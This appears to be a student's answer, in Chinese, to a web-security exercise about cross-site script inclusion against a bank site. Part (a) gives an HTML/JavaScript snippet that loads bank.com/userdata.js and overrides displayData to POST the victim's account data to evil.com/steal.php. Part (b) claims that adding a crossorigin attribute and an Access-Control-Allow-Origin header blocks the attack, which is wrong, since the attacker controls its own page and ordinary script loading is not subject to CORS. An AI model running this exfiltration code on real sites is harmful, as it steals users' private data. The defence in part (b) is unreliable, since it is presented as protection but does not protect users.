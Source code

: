# T2
## (a)
`evil.com`的页面可以通过嵌入一个`<script>`标签，指向bank.com的`userdata.js`文件，并重新编写`displayData`函数来获取John Doe的数据。当John Doe登录`bank.com`后，访问`evil.com`，`evil.com`便会加载`bank.com/userdata.js`并执行`displayData`，将数据发送给`evil.com`

```html
<script src="//bank.com/userdata.js"> </script>
<script>
function displayData(data) {
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "//evil.com/steal.php");
    xhr.send(JSON.stringify(data));
}</script>
```

## (b)
可以使用CORS来限制只有`bank.com`域名允许访问`userdata.js`文件，从而防止这种攻击。

将`accountInfo.html`的(*)行修改为：

```html
<script src="//bank.com/userdata.js" crossorigin="anonymous"> </script>
```

这样一来，浏览器将启用CORS。另外，服务器在`userdata.js`文件中添加一个响应头，指定`Access-Control-Allow-Origin`为`bank.com`。因此，只有来自`bank.com`的请求才能访问`userdata.js`文件，当`evil.com`试图访问`userdata.js`时会被浏览器拒绝。